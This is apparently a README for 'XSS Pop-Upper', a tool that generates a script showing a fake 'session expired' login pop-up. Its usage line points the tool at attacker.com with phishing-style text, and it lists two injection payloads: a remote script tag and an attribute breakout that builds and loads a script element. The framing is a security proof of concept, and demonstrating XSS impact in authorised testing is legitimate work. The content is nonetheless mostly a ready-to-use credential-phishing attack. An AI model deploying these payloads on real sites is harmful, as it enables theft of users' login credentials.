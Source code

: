 # XSS Pop-Upper
This Javascript file create a pop-up for your XSS PoC.

# Usage
`python xss-popupper.py --url "http://attacker.com" --title "Log-in for session" --body "Your session has expired. Please log-in again" --time 5000`

# Inject
- For HTML Element: <br/>`<script src=http://export.js></script>`
- For Element Attribute: <br/>`"onmouseover="x=document.createElement('script');x.src='export.js';document.getElementsByTagName('head')[0].appendChild(x)`

<img src=http://g.recordit.co/SicxeWVXzZ.gif />
